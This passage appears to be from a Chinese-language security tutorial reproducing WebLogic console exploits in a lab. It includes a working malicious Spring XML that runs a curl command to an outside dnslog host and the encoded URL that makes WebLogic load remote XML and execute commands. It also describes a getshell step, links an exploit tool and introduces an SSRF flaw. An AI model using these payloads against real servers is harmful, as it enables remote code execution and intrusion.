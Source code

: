 进入docker容器中可以看到文件以成功创建

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

     这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10版本并不存在 com.tangosol.coherence.mvel2.sh.ShellSession 类

  

2.利用com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext执行命令

```
`一种更为通杀的方法，对于所有Weblogic版本均有效。``但是必须可以出网，要可以访问到恶意的xml。``首先需要构造一个XML文件，并将其保存外网（漏洞机或者可访问的一台机子上）上`
```

XML文件:

```
`<?xml version="1.0" encoding="UTF-8" ?>``<beans xmlns="http://www.springframework.org/schema/beans"` `xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"` `xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">` `<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">` `<constructor-arg>` `<list>` `<value>bash</value>` `<value>-c</value>` `<value><![CDATA[curl pnw46y.dnslog.cn]]></value>` `</list>` `</constructor-arg>` `</bean>``</beans>`
```

    然后通过构造如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://ip.xml")
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**getshell**

    访问页面 (http://ip:7001/console/login/LoginForm.jsp) 使用burp抓包，修改请求包为构造好的payload

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

也可以直接下载大佬写好的工具，下载地址(https://github.com/backlion/CVE-2020-14882_ALL)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**ssrf漏洞**  

**漏洞描述**

    Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

    SSRF漏洞可以通过篡改获取资源的请求发送给服务器，但是服务器并没有检测这个请求是否合法的，然后服务器以他的身份来访问其他服务器的资源。

**漏洞影响范围**

    Oracle WebLogic Server 10.3.6.0

